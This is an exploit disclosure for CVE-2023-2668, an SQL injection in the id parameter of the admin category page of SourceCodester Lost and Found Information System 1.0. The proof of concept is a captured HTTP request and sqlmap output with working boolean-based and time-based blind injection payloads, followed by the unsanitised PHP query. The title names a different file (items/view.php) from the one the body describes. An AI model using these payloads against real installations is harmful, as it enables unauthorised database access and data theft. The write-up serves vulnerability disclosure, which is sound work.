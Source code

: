 # Exploit Title: SOURCECODESTER LOST AND FOUND INFORMATION SYSTEM 1.0 GET PARAMETER ITEMS/VIEW.PHP ID SQL INJECTION
A vulnerability was found in SourceCodester Lost and Found Information System 1.0. It has been classified as critical. This affects the function manager_category of the file admin/?page=categories/manage_category of the component GET Parameter Handler. The manipulation of the argument id leads to sql injection. This vulnerability is uniquely identified as CVE-2023-2668. It is possible to initiate the attack remotely. Furthermore, there is an exploit available.
### Date: 
> 12 May 2023

### ID: CVE-2023-2668
### Author: 
> tht1997
### Vendor Homepage:
> https://www.sourcecodester.com
### Software Link:
> [LOST AND FOUND INFORMATION SYSTEM](https://www.sourcecodester.com/php/16525/lost-and-found-information-system-using-php-and-mysql-db-source-code-free-download.html)
### Version:
> v 1.0

# Tested On: Windows 10, XAMPP

### Affected Page:
> /admin/?page=categories/manage_category&id=


### Description:
> A vulnerability was found in SourceCodester Lost and Found Information System 1.0 and classified as critical. Affected by this issue is the function manager_category of the file admin/?page=categories/manage_category of the component GET Parameter Handler. The manipulation of the argument id with an unknown input leads to a sql injection vulnerability. Using CWE to declare the problem leads to CWE-89. The software constructs all or part of an SQL command using externally-influenced input from an upstream component, but it does not neutralize or incorrectly neutralizes special elements that could modify the intended SQL command when it is sent to a downstream component
### Proof of Concept:
> Following steps are involved:
1. Visit the vulnerable page: /php-lfis/admin/?page=categories/view_category&id=2
2. Copy request to a txt file and run with SQLmap
Request
```
GET /php-lfis/admin/?page=categories/manage_category&id=2 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://localhost/php-lfis/admin/?page=categories/view_category&id=2
Cookie: remember_me_name=bMGFrQaFzDhuoLmztZCT; remember_me_pwd=YMSm3Q2wFDHaHLQ5eZPKc42oU7CaK8IlA%40q1; remember_me_lang=en; Hm_lvt_c790ac2bdc2f385757ecd0183206108d=1680329430; Hm_lvt_5320b69f4f1caa9328dfada73c8e6a75=1680329567; PowerBB_username=xss; PowerBB_password=8879f85d0170cba2a4328bbb5a457c6a; menu_contracted=false; __atuvc=1%7C16; PHPSESSID=kt5sfckl2e0fle94p3bdha9n45
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

```

3. Result
```
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: page=categories/manage_category&id=2' AND 9413=9413 AND 'OfUY'='OfUY

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=categories/manage_category&id=2' AND (SELECT 1200 FROM (SELECT(SLEEP(5)))pTou) AND 'jydD'='jydD
---
```
4. CODE VULNERABLE
```
<?php
if(isset($_GET['id']) && $_GET['id'] > 0){
    $qry = $conn->query("SELECT * from `category_list` where id = '{$_GET['id']}' ");
    if($qry->num_rows > 0){
        foreach($qry->fetch_assoc() as $k => $v){
            $$k=$v;
        }
    }
}
?>
```


